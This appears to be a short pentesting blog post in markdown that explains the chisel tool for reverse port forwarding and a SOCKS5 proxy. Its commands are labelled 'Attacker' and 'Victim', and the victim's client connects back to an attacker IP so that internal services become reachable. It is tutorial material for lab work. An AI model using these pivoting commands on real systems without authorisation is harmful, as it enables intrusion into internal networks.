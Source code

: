 ```yaml
---
layout: single
title: Chisel
excerpt: "Explanation of how to use the chisel tool to perform port forwarding."
date: 2021-11-28
classes: wide
header:
  teaser: /assets/images/Tools/bash-icon.png
  teaser_home_page: true
  icon: /assets/images/tool.png
categories:
  - Tools
tags:
  - Port Forwarding
  - CLI

---
```



# Chisel
## Definición
Chisel is a tool located at [github](https://github.com/jpillora/chisel), with which we can do port forwarding.

![overview](https://camo.githubusercontent.com/f211df8890519ba2e5b50f7268f089117e5f754be9f759aa05617b92cc27d24a/68747470733a2f2f646f63732e676f6f676c652e636f6d2f64726177696e67732f642f317035335657787a474e667938726a722d6d5738707669734a6d686b6f4c6c383276416763744f5f366631772f7075623f773d39363026683d373230)

## Port Forwarding
### Usage

  * <span style="color:red">*Attacker:*</span>
    * `chisel server --reverse --port <chisel port>`
  * <span style="color:#7cb9e8">*Victim:*</span>
    * `chisel client <Attacker IP>:<Chisel port> R:<Service Port at Attacker Host>:<IP where the victim accesss (it can be loopback)>:<Service Port>`

### Example

* <span style="color:red">*Attacker:*</span>
    * `chisel server --reverse --port 1234`
* <span style="color:#7cb9e8">*Victim:*</span>
    * `chisel client 10.10.14.14:1234 R:8888:127.0.0.1:8888`

## Dynamic Port Forwarding (proxy)
Same as -D option in ssh but with chisel

* <span style="color:red">*Attacker:*</span>
    * `chisel server --reverse --port 1234 --socks5`
* <span style="color:#7cb9e8">*Victim:*</span>
    * `chisel client 10.10.14.14:1234 R:socks`

And then chisel will start a **SOCK5** proxy in **127.0.0.1:1080**
